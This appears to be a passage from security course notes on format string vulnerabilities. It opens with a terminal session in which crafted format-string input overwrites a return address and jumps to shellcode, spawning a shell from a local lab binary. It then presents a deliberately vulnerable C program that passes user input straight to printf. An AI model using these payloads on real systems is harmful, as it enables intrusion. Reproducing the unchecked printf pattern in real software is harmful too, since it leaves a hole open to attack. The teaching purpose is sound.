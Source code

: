 ``` {.example}
user@si485H-base:demo$ ./format_overflow "%505d$(printf '\xef\xbe\xad\xde')$(printf $(./hexify.sh smallest_shell))"
outbuf: ERR Wrong command:                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               -1073743746ﾭ?1???Phn/shh//bi??
                                                                                                                                                                         ̀
Segmentation fault (core dumped)
user@si485H-base:demo$ dmesg | tail -1
[181798.445440] format_overflow[16919]: segfault at deadbeef ip deadbeef sp bffff690 error 15
user@si485H-base:demo$ ./format_overflow "%505d$(printf '\x90\xf6\xff\xbf')$(printf $(./hexify.sh smallest_shell))"
outbuf: ERR Wrong command:                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               -1073743746????1???Phn/shh//bi??
                                                                                                                                                                           ̀
$ echo "I did it!"
I did it!
$ 
```

Reading Memory with Format Attack
=================================

To start, let's return to the simple format example that is vulnerable:

``` {.c}
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char * argv[]){

  char *s="Go Navy!";
  int a=0xdeadbeef;
  int b=0xcafebabe;
  printf(argv[1]); // user controls the format
  printf("\n");
}
```

In this example, the user controls the format to the process, so they
can pass in format sequences, like %\#08x, or %s, or %n, and cause the
printf to perform some action. The question we are concerned with first
is: what is actually being accessed when we do this?

To begin, if we run this program, we can start to get a sense of what is
going on:
